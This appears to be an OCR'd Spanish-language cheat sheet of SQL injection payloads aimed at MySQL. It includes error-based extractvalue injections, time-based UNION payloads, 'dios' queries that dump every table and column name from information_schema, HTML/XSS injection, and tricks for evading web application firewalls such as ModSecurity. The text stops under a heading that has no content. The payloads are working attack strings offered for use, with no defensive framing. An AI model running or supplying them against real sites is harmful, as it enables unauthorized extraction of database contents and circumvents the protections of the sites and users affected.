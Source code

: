 `select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### SQL injection usando doble reverse + right + if statement + HTML injection

`SELECT reverse(reverse(right(if(1=1,table_name,'<h3><font color=blue> Tablas:</h3>'),100))) from information_schema.tables`

### Sql inyection usando las funciones HEX-UNHEX

`SELECT UNHEX(HEX(table_name))from information_schema.tables`

### Inyección sql tipo error based usando Extractvalue

`1%20and+extractvalue(rand(),concat(0x7e,version(),0x7e,user()))--`

### Sql inyection payload usando reverse

`reverse(right(reverse(data),1))`

### Sql inyection payload usando extractvalue

`extractvalue(rand(),concat(CHAR(126),database(),CHAR(126)))`

### Sql inyection payload + url encode + timing  

`-7 %23%0AAND 0--%0A /*!12345UNION*/ /*!12345ALL*/ (/*!12345SELECT*/ 1,sleep(5),'soy vulnerable',BENCHMARK(1000000,MD5('true')),5,6,7,8,9,10,11,12,13)`



## Sql inyection + dios sql

```
/*!u%6eion*/ /*!se%6cect*/+1,concat(@:=0,(select count(*)from information_schema.columns where@:=concat(@,'<br>',table_name,'::',column_name)),@),3..

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x3c62723e,table_name,0x203a3a20,column_name))))x)

CONCAT(Tablas <br>,(SELECT(@x)FROM(SELECT(@x:=0x00),(@NR:=0),(SELECT(0)FROM(INFORMATION_SCHEMA.TABLES)WHERE(TABLE_SCHEMA!=information_schema)AND(0x00)IN(@x:=CONCAT(@x,LPAD(@NR:=@NR%2b1,2,0x30),0x3a20,table_name,0x3c62723e))))x))
```

### Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection

`+and+(select%201)=(Select%200xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....)+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4,....+--+`

### sql inyection payload+ bypass Mod_Security 
